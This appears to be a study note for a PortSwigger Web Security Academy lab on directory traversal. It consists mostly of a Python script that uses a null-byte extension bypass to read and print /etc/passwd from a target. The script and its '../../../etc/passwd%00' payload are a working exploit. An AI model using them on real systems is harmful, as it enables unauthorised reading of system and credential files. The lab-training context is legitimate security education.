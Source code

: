 #directorytraversal [[Directory Traversal]]
[Lab ](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)
[Python Script](https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/directory-traversal/lab-06/directory-traversal-lab-06.py)

*This is the python code to Automate* 
```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=../../../etc/passwd%0048.jpg'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```
